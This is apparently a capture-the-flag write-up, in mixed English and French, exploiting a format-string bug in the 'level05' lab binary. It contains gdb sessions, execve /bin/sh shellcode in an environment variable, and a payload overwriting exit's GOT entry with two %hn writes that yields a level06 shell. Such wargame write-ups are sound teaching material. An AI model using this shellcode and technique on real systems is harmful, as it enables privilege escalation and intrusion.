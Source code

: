 # level05

We can see that program takes an input and XOR each byte with 32 if it is between 'A' and 'Z'. It is a `toLower` like function:

```gdb
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048472 in main ()
(gdb) c
Continuing.
AAAAAAAAAAA

Breakpoint 2, 0x08048500 in main ()
(gdb) x/s $esp+0x28
0xffffd668:      'a' <repeats 11 times>, "\n"
```

Then, it pass the result string in `printf` as the only argument.

We try to found the direct access parameter:

```bash
level05@OverRide:~$ (python -c "print 'aaaa' + '%p ' * 30";cat) | ./level05  
aaaa0x64 0xf7fcfac0 0xf7ec3af9 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070  
```

Our string is printed at the 10th parameter.

We put our shellcode in an environment variable and find its address:

Nous pouvons voir que notre string 'aaaa' apparait au printf access parameter numero 10  
  
```bash
export EXPLOIT=$(python -c "print '\x90' * 400 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")  

(gdb) x/s *((char **)environ+0)  
0xffffd74a:      "EXPLOIT=<...>"  
  
adresse exploit: 0xffffd74a  
(gdb) p/d 0xffffd74a+200  
$1 = 4294957074  
  
(gdb) p/x 0xffffd74a+200  
$2 = 0xffffd812  
(gdb) x/s 0xffffd812  
  
We get exit function address:

```gdb
(gdb) info function exit  
All functions matching regular expression "exit":  
  
Non-debugging symbols:  
0x08048370  exit  
0x08048370  exit@plt  
...
(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + %4294957070\$x + '%10\$n'")
0x0804847a in main ()
(gdb) x/wx $esp
0xffffd690:     0xffffd6b8
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
Breakpoint 2, 0x08048507 in main ()
(gdb) x/5wx 0xffffd6b8
0xffffd6b8:     0x080497e0      0x39323425      0x37353934      0x24303730
0xffffd6c8:     0x00000a6e
```  

Nous pouvons voir que les bytes que nous avons rentrer dans le fgets() ne sont pas modifier, mais que nous n'avons pas jump sur notre shellcode
  
Nous pouvons voir sur ce document, que les valeurs des int pris en compte par printf ont une limite :  
https://cs155.stanford.edu/papers/formatstring-1.2.pdf  
  
Comme a sa section 4.1 (Short write), nous allons passer notre adresse en deux fois afin de ne pas depasser cette limite. 
  
```bash
(gdb) p/d 0xd812  
$4 = 55314  
(gdb) p/d 0xd812-8  
$5 = 55306  
  
gdb-peda$ p/d 0xffff  
$5 = 65535  
(gdb) p/d 0xffff-55314  
$6 = 10221  
  
```

=> 0x08048475 <+49>:    call   0x8048350 <fgets@plt> ; Size == 100  
(gdb) x/wx $esp  
0xffffd470:     0xffffd498  
(gdb) x/s 0xffffd498  
0xffffd498:      ""  
  
(gdb) r <<<$(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%.55306u%10\$hn' + '%.10221u%11\$hn'")  
=> 0x08048507 <+195>:   call   0x8048340 <printf@plt>
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     jbe    0x8049765 <_DYNAMIC+105>
   0x080497e2 <+2>:     add    al,0x8
End of assembler dump.

=> 0x0804850c <+200>:   mov    DWORD PTR [esp],0x0
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:     push   0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) disas 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:     adc    bl,al
   0x080497e2 <+2>:     (bad)  
   0x080497e3 <+3>:     jmp    DWORD PTR [eax]
End of assembler dump.
  
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%.55306u%10$hn" + "%.10221u%11$hn")'; cat) | ./level05  
<...>  
whoami  
level06  
